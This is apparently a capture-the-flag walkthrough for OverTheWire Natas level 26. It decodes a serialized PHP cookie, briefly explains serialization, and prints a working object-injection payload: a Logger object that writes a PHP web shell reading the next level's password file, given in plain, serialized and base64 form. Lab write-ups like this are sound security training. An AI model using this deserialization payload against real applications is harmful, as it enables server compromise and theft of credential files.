# 🕸️Natas Level 26 → Level 27

```
http://natas26.natas.labs.overthewire.org
```
Username: natas26  
Password: (natas26_password)



Go to the **source page**







If we look at the **cookies**, only a single cookie is listed.



Then, we test the functionality by providing input and pressing the **DRAW!** button.



We saw a red line appear on a black square.



A new cookie labeled **drawing** appears, and its value looks like it's in **base64 encoding**.
```
YToxOntpOjA7YTo0OntzOjI6IngxIjtzOjI6IjUwIjtzOjI6InkxIjtzOjI6IjUwIjtzOjI6IngyIjtzOjM6IjIwMCI7czoyOiJ5MiI7czozOiIyMDAiO319
```


After that, we go to **CyberChef** to decode it. Once decoded, we see **an object**.
```
a:1:{i:0;a:4:{s:2:"x1";s:2:"50";s:2:"y1";s:2:"50";s:2:"x2";s:3:"200";s:2:"y2";s:3:"200";}}
```


## Object Serialization and Deserialization

## Overview
Object **serialization** and **deserialization** are two processes used to convert data between in-memory objects and storable or transmittable formats.



---

## Serialization
**Serialization** is the process of converting an object into a format that can be:

- Stored (for example, in a file or database)
- Sent across a network (e.g., via HTTP)
- Transferred between processes

Common serialized formats include:

- **JSON**
- **XML**
- **Binary formats** (e.g., Protocol Buffers, Java’s Serializable)

### Example
A PHP object like:
```
<?php

class User {
    public $name;
    public $age;

    public function __construct($name, $age) {
        $this->name = $name;
        $this->age = $age;
    }
}

$user = new User("Alice", 30);

// Convert object to JSON
$jsonData = json_encode($user);

// Output the JSON data
echo $jsonData;

?>
```

might be converted into this JSON string:

```
{"name": "Alice", "age": 30}
```
---

## Deserialization
**Deserialization** is the reverse process: converting a serialized format back into an in-memory object.

### Example
A JSON string like:
```

{"name": "Alice", "age": 30}

```
is converted back into an object in Python, Java, C#, JavaScript, or any other language.

---

## Why Serialization Is Important
Serialization is used everywhere, including:

- **APIs** — Most API communication uses serialized data such as JSON.
- **Inter-process communication** — Processes exchange serialized messages.
- **Persistence** — Objects saved to disk or databases use serialized formats.
- **Distributed systems** — Machines exchange data in standardized serialized representations.

---

### Highly recommended to read 📖

https://portswigger.net/web-security/deserialization  
https://owasp.org/www-community/vulnerabilities/Insecure_Deserialization

---

We begin by copying an object from the source page.



Next, we make changes to include our **payload**.
```
<?php
class Logger{
  private $logFile;
  private $initMsg;
  private $exitMsg;

  function __construct(){
    // initialise variables
    $this->initMsg="";
    $this->exitMsg="<?php System(\"cat /etc/natas_webpass/natas27;\"); ?>";
    $this->logFile = "img/n26_shell.php";
  }
}
 
$payload = new Logger("");
echo serialize($payload);
echo "\n";
echo "\n";
echo base64_encode(serialize($payload));
echo "\n";
echo "\n";
  
?>
```

After that, we run it on our machine and get the following output. If you don’t have PHP installed, you can also use an online PHP compiler.



Copy the **base64-encoded serialized output** into the "drawing" cookie, then click save.
```
O:6:"Logger":3:{s:15:"LoggerlogFile";s:17:"img/n26_shell.php";s:15:"LoggerinitMsg";s:0:"";s:15:"LoggerexitMsg";s:51:"<?php System("cat /etc/natas_webpass/natas27;"); ?>";}

Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNzoiaW1nL24yNl9zaGVsbC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czowOiIiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MToiPD9waHAgU3lzdGVtKCJjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjc7Iik7ID8+Ijt9
```


Reload the page to make the cookie take effect.



Afterward, a PHP warning error appeared.



Finally, we accessed our payload location and retrieved the flag.
```
http://natas26.natas.labs.overthewire.org/img/n26_shell.php
```


Excellent! Use this flag to proceed to the next round.


